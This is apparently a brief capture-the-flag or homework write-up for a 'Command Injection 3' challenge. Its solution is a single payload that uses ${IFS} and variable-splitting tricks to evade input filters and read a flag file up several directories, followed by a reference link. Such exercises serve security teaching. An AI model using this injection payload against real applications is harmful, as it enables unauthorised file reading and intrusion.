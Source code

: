 # Homework 1-2 Command Injection 3 [100 points] (38 solves)
`$(cat${IFS}..${ROOT}..${ROOT}..${ROOT}fl$@ag)`

## Reference:
https://book.hacktricks.xyz/pentesting-web/file-inclusion
